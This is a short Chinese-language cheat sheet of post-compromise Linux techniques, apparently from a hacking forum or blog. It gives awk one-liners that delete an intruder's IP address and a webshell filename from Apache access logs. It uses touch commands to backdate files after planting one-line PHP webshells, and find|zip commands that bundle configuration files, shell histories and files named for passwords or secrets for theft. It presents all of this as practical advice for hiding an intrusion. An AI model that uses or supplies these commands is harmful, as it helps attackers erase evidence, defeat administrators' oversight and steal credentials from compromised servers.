 登录ssh后管理员用w查看当前登录用户，所以有必要隐藏，推荐xi4oyu的logtamper

清除日志里指定内容：

日志必须是文本格式，而且你有权限读写⋯⋯

```
awk '!/pattern/' filename > temp && mv temp filename

```

这个原理说白了就是去掉原文件里的指定内容然后生成新文件，再用新的覆盖旧的，弄完记得用chmod还原原来的属性. 例子：

```
awk '!/123.123.123.123/' /var/log/httpd/access_log > temp && mv temp /var/log/httpd/access_log

```

去掉所有包含123.123.123.123的日志记录。 可以匹配多个关键词:

```
awk '!/123.123.123.123|111.111.111.111|phpspy.php/' /var/log/httpd/access_log > temp && mv temp /var/log/httpd/access_log

```

修改文件访问|创建|修改时间:

```
touch -amt 200901231532 文件名 

```

改成2009年1月23号15点32分

批量修改时间：

比如你在一个文件夹改了很多php插了一堆一句话:

```
ls|xargs touch -amt 200901231532 

```

把当前目录所有文件时间都改了

信息搜集：

```
find / ! -path "/usr/share/*" -regex ".*.sh$|.*.pl$|.*.py$|.*.conf$|.*.cnf$|.*.ini$|.*\/..*history$|.*\/..*pass.*$|.*secret$" -print|zip pack.zip -@ 

```

打包各种脚本和配置文件还有history日志。 有的环境下zip需要一些参数才能用，请自行修改

在/var/www搜集全部_conf_.php然后打包

```
find /var/www -name '*conf*.php' -print | zip config.zip -@

```
